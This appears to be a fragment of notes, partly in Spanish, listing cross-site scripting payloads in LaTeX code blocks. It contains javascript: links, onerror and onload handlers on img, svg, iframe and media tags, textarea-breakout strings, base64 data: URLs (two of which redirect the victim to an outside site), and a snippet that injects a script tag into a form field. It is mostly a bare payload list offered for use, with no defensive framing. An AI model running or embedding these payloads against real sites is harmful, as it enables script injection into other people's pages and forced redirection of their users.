 Other payloads:
\begin{lstlisting}[numbers=none]
<a href='www.evil-site.com'>www.evil-site.com link</a>
<a href="javascript:document.write('<image src =q onerror=prompt(8)>')">evil link</a>
<a href="javascript:let pdfWindow = window.open('');pdfWindow.document.write( `<iframe width='100%' height='100%' src='data:text/html;base64, ` + encodeURI(`PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=`) + `'></iframe>` )
">evil link</a>
<a href='data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4='>clic on xss</a>
<script>javascript:alert(123456789)</script>
<image src =q onerror=prompt(8)>
<img src="javascript:alert('XSS');">
<object src=1 href=1 onerror="javascript:alert(1)"></object>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
<video src=1 href=1 onerror="javascript:alert(1)"></video>
<svg onload svg onload="javascript:javascript:alert(1)"></svg onload>
<iframe onLoad iframe onLoad="javascript:javascript:alert(1)"></iframe onLoad>
<iframe onbeforeload iframe onbeforeload="javascript:javascript:alert(1)"></iframe onbeforeload>
<iframe><textarea></iframe><img src='' onerror='alert(document.domain)'>
</textarea><script>alert(/xss/)</script>
<INPUT TYPE="IMAGE" SRC="javascript:javascript:alert(1);" onerror="javascript:alert(1)"  onclick="javascript:alert(1)">
<iframe><textarea></iframe><img src="" onerror="alert('14/04/2022')">

<image src =q onerror=`window.parent.location = 'http://127.0.0.1:8000/index.html'`>
<image src =q onerror='javascript:alert(1223456789)'>
\end{lstlisting}

Example: Base64 XSS payload
\begin{lstlisting}[numbers=none]
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
\end{lstlisting}

Insert value in HTML element with javascript:
\begin{lstlisting}[numbers=none]
	document.getElementById("f_464cf370-896e-4af1-a0b1-3f4621ff0a36").value = '<script>javascript:alert(123456789)</script>';
\end{lstlisting}
	
## Mensaje de xss
data:text/html;base64,PHNjcmlwdD5jb25maXJtKCJQcm9udG8gc2VyYXMgcmVkaXJlY2Npb25hZG8gcG9yIGNpYmVyc29jXzN0aW4gIik7d2luZG93LmxvY2F0aW9uLnJlcGxhY2UoImh0dHBzOi8vb3N2YWxkb2hkem0uZ2l0aHViLmlvLyIpOzwvc2NyaXB0Pgo

data:text/html;base64,PHNjcmlwdD5jb25maXJtKCJQcm9udG8gc2VyYXMgcmVkaXJlY2Npb25hZG8gcG9yIGNpYmVyc29jXzN0aW4gIik7d2luZG93LmxvY2F0aW9uLnJlcGxhY2UoImh0dHBzOi8vb3N2YWxkb2hkem0uZ2l0aHViLmlvL3NpdGlvLW1hbG8vIik7PC9zY3JpcHQ+Cg==

